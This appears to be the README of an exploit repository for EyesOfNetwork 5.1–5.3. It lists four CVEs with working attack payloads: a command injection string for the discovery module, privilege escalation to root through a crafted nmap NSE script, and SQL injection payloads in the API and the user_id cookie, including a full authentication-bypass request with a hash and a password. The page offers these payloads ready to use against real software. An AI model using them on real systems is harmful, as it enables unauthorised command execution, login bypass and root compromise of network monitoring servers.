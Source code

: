 # eonrce
EyesOfNetwork 5.1 to 5.3 exploits

Theses two exploit files uses the following CVE's:
| CVE_number__ | Description |
| ------------- | --- |
| CVE-2020-8654 | Discovery module to allows to run arbitrary OS commands<br>We were able to run the `id` command with the following payload in the target field : `;id #`.|
| CVE-2020-8655 | LPE via nmap NSE script<br>As the apache user is allowed to run nmap as root, we were able to execute arbitrary commands by providing a specially crafted NSE script.<br>nmap version 6.40 is used and doesn't have the `-c` and `-e` options.|
| CVE-2020-8656 | SQLi in API in getApiKey function on 'username' field<br>PoC: `/eonapi/getApiKey?username=' union select sleep(3),0,0,0,0,0,0,0 or '`<br>Auth bypass: `/eonapi/getApiKey?&username=' union select 1,'admin','1c85d47ff80b5ff2a4dd577e8e5f8e9d',0,0,1,1,8 or '&password=h4knet#`|
| CVE-2020-9465 | SQLi in API in Cookies `user_id` field<br>PoC: `Cookie: user_id=1' union select sleep(3) -- ;`|


### eonrce.py
![screenshot](eonrce.gif)

### eonrce2.py
![screenshot](eonrce2.gif)


